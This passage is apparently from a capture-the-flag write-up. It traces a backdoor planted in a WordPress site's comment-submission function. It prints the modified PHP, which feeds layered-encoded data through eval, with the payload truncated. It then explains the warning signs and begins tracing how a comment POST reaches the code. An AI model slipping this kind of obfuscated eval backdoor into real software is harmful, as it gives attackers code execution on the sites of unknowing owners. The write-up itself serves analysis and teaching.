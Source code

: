 #### Find Backdoor

There as a reference to having been hacked on the blog, which is a hint
to look for backdoors the WordPress instance. Looking for dangerous
strings in PHP will lead to this block in `wp-includes/comment.php`:



    function wp_handle_comment_submission( $comment_data ) {

        $comment_post_ID      = 0;
        $comment_parent       = 0;
        $user_ID              = 0;
        $comment_author       = null;
        $comment_author_email = null;
        $comment_author_url   = null;
        $comment_content      = null;

        if ( isset( $comment_data['comment_post_ID'] ) ) {
            $comment_post_ID = (int) $comment_data['comment_post_ID'];
        }
        if ( isset( $comment_data['author'] ) && is_string( $comment_data['author'] ) ) {
            $comment_author = trim( strip_tags( $comment_data['author'] ) );
        }
        if ( isset( $comment_data['email'] ) && is_string( $comment_data['email'] ) ) {
            $comment_author_email = trim( $comment_data['email'] );
        }
        if ( isset( $comment_data['url'] ) && is_string( $comment_data['url'] ) ) {
            $comment_author_url = trim( $comment_data['url'] );
        }
        if ( isset( $comment_data['comment'] ) && is_string( $comment_data['comment'] ) ) {
            $comment_content = trim( $comment_data['comment'] );
        }
        if ( isset( $comment_data['comment_parent'] ) ) {
            $comment_parent = absint( $comment_data['comment_parent'] );
        }

        // aded to validte  my ownemail against my  internal scrit
        // ba4fb13188ee48077524f9ac23c230250c5661aec9776389e8befbce277c72de - ignore
        eval(gzuncompress(str_rot13(base64_decode('a5wUmlLSs+wWUodmvyoauDVkCx608xfu7oz+...[snip]...



After a series of collecting the various fields and saving them in
variables, there's this `eval` call. It's very suspect to have something
passed through a few layers of encoding, then decompressed, and passed
to `eval`. At this point, it's not clear what the 64 characters string
in the comment starting with "ba4f" is, but it looks like a SHA256 hash.
The typos / poor english in the comments are also a potential indicator
of maliciousness (though also could just be sloppy on toby's part).

#### Backdoor Context

This suspect code is in the `wp_handle_comment_submission` function.
That function is called from a `wp-comments-post.php`, which is where my
POST to submit a comment went earlier:
